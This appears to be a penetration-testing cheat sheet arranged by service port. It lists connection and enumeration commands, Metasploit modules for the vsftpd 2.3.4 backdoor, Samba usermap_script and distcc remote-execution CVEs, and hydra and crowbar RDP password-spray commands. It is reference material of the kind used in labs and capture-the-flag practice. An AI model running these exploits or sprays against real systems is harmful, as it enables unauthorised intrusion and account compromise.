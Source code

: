 # FTP (21)
## Connection
```bash
$ ftp <IP>
```
## Commands 
- ls
- get [FILE]
- mget [FILE] [FILE]
- put [FILE]
- exit
## Exploits
vsftpd 2.3.4 
- CVE-2011-2523 -> exploit/unix/ftp/vsftpd_234_backdoor (Metasploit)
	- Backdoor on port 6200

# SSH (22)
## General 
```bash
$ ssh <USER>@<IP>
```
## Options 
```bash
-p <PORT>
```
# SMB (139,445)
## SMB Shares Enumeration
```bash
$ smbmap -H <IP>
```
```bash
$ smbclient -L \\<IP>
```
## SMB Share Selection
```bash
$ smbclient  \\\\<IP>\\<SHARE>
```
### Commands
- **dir**: list files in current directory
- **more** <FILE>: see contents of file
- **get** <FILE>: download file to attacking device
- **cd**: change directory
- **put** <FILE>: upload file to target device

## Exploitation
### Samba
**Vulnerability**: Samba 3.0.20 < 3.0.25rc3 can be vulnerable to **CVE-2007-2447**, which allows remote code execution due to insufficient access control.
#### Exploitation using Metasploit
```bash
use exploit/multi/samba/usermap_script
set RHOSTS
set LHOST
```
# MySQL (3306)
## Connection 
```bash
$ mysql -u <username> -p -h <ip> -P <port>
```
```bash
$ mysql -u <username> -p -h <ip> -P <port> --skip-ssl
```
## Commands
### Show All Databases
```bash
show databases;
```
### Select Database
```bash
use <table>;
```
### Show Tables in Database
```bash
show tables;
```
### Display Table
```bash
select * from <table>;
```
# RDP (3389)
## Enumeration
### Automatic
```bash
$ nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
It checks the available encryption and DoS vulnerability (without causing DoS to the service) and obtains NTLM Windows info (versions).
### Brute Force
	Be CAREFUL you might lock accounts 
### Password Sprays
	Be CAREFUL you might lock accounts 
#### Crowbar
https://github.com/galkan/crowbar
```bash
$ crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```
#### hydra
```bash
$ hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
	
## Connection
### xfreerdp
#### Fixed Screen:
```bash
$ xfreerdp /u:<USER> /p:<PASSWORD> /cert:ignore /v:10.10.73.136 /workarea /tls-seclevel:0
```
#### Adjustable Screen:
```bash
$ xfreerdp /u:admin /p:password /cert:ignore /v:10.10.15.71  /tls-seclevel:0 /smart-sizing
```
# Distcc (3632)
Distcc is a distributed compiler tool that speeds up compilation by offloading tasks to other networked systems running the `distccd` daemon.
## Exploitation
**Vulnerability**: Distcc can be vulnerable to **CVE-2004-2687**, which allows remote code execution due to insufficient access control.
### Test Exploit using Nmap
Nmap can be used to test the vulnerability by executing a command on the remote system, such as retrieving the `id` of the current user:
```bash
nmap -p 3632 <ip> --script distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```
### Exploitation with Metasploit
You can exploit this vulnerability using Metasploit:
```bash
use exploit/unix/misc/distcc_exec
```


# Mystery Port
## Connection
```bash
$ nc <IP> <PORT>
```

